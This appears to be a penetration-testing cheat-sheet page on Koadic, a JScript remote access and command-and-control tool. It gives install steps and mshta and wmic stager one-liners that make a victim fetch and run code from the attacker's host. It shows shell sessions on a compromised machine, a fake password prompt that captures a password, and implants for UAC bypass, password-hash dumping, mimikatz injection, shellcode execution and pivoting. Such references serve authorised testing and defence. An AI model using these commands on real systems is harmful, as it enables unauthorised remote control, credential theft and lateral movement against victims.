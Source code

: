 ```yaml
---
title: Koadic C3 COM Command & Control - JScript RAT
categories: [Methodology and Resource, Windows]
tags: [Network, Javascript, Pentest]
---
```



> Windows post-exploitation rootkit similar to other penetration testing tools such as Meterpreter and Powershell Empire.

## Installation

```powershell
git clone https://github.com/zerosum0x0/koadic
git submodule init
git submodule update
pip2.7 install -r requirements.txt --user
python2.7 koadic
```

## Set a listener

```powershell
use stager/js/mshta
set LHOST 192.168.1.19
set SRVPORT 4444
run

[>] mshta http://192.168.1.19:4444/6DX7f
```

```powershell
use stager/js/wmic
set LHOST 192.168.1.19
set SRVPORT 4444
run

[>] wmic os get /FORMAT:"http://192.168.1.19:4444/lQGx5.xsl"
```

### Stagers

Stagers hook target zombies and allow you to use implants.

Module | Description
--------|------------
stager/js/mshta | serves payloads using MSHTA.exe HTML Applications
stager/js/regsvr | serves payloads using regsvr32.exe COM+ scriptlets
stager/js/wmic | serves payloads using WMIC XSL
stager/js/rundll32_js | serves payloads using rundll32.exe
stager/js/disk | serves payloads using files on disk



## List zombies and interact with them

```powershell
(koadic: sta/js/wmic)$ zombies

        ID   IP              STATUS  LAST SEEN
        ---  ---------       ------- ------------
        0    192.168.1.30    Alive   2018-10-04 17:07:12

(koadic: sta/js/wmic)$ zombies 0
        ID:                     0
        Status:                 Alive
        First Seen:             2018-10-04 17:05:00
        Last Seen:              2018-10-04 17:14:42
        IP:                     192.168.1.30
        User:                   DESKTOP-68URA9U\CrashWin
        [...]
        Elevated:               No
        [...]
```

Interact with `zombies zombie_id`, get a shell with `cmdshell zombie_id`.

```powershell
[koadic: ZOMBIE 0 (192.168.1.30) - C:\Users\CrashWin]> whoami
[*] Zombie 0: Job 1 (implant/manage/exec_cmd) created.
[+] Zombie 0: Job 1 (implant/manage/exec_cmd) completed.
Result for `cd C:\Users\CrashWin & whoami`:
desktop-68ura9u\crashwin
```

## Use an implant

Select an implant with `use module`, then fill the `info` with `set INFO value`, finally start the module with `run`.

```powershell
(koadic: sta/js/mshta)$ use implant/phish/password_box
(koadic: imp/phi/password_box)$ set ZOMBIE 1
(koadic: imp/phi/password_box)$ run
Input contents:
MyStrongPassword123!
```

### Implants

Implants start jobs on zombies.

Module | Description
--------|------------
implant/elevate/bypassuac_eventvwr | Uses enigma0x3's eventvwr.exe exploit to bypass UAC on Windows 7, 8, and 10.
implant/elevate/bypassuac_sdclt | Uses enigma0x3's sdclt.exe exploit to bypass UAC on Windows 10.
implant/fun/zombie | Maxes volume and opens The Cranberries YouTube in a hidden window.
implant/fun/voice | Plays a message over text-to-speech.
implant/gather/clipboard | Retrieves the current content of the user clipboard.
implant/gather/enum_domain_info | Retrieve information about the Windows domain.
implant/gather/hashdump_sam | Retrieves hashed passwords from the SAM hive.
implant/gather/hashdump_dc | Domain controller hashes from the NTDS.dit file.
implant/gather/user_hunter | Locate users logged on to domain computers (using Dynamic Wrapper X).
implant/inject/mimikatz_dynwrapx | Injects a reflective-loaded DLL to run powerkatz.dll (using Dynamic Wrapper X).
implant/inject/mimikatz_dotnet2js | Injects a reflective-loaded DLL to run powerkatz.dll (@tirannido DotNetToJS).
implant/inject/shellcode_excel | Runs arbitrary shellcode payload (if Excel is installed).
implant/manage/enable_rdesktop | Enables remote desktop on the target.
implant/manage/exec_cmd | Run an arbitrary command on the target, and optionally receive the output.
implant/phishing/password_box | Prompt a user to enter their password.
implant/pivot/stage_wmi | Hook a zombie on another machine using WMI.
implant/pivot/exec_psexec | Run a command on another machine using psexec from sysinternals.
implant/scan/tcp | Uses HTTP to scan open TCP ports on the target zombie LAN.
implant/utils/download_file | Downloads a file from the target zombie.
implant/utils/multi_module | Run a number of implants in succession.
implant/utils/upload_file | Uploads a file from the listening server to the target zombies.

## References

- [Pentestlab - koadic](https://pentestlab.blog/tag/koadic/)
- [zerosum0x0 Github - koadic](https://github.com/zerosum0x0/koadic)